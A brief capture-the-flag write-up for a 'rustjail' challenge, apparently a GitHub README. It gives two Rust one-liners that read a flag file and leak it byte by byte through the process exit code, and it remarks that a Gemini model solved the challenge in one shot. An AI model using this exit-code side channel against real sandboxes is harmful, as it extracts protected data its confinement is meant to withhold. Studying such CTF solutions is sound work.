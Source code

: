 # rustjail solve

```
fn main() {std::process::exit(std::fs::read_to_string("flag").unwrap().chars().nth(0).unwrap() as i32)}
```

intended solution looks something like above but do it replacing 0 until you extract entire flag

use exit to leak flag chars

```
fn main() { std::process::exit(std::fs::read("flag.txt").unwrap().get(0).unwrap().clone().into()) }
```

gemini one-shot :sob: ai is a big problem

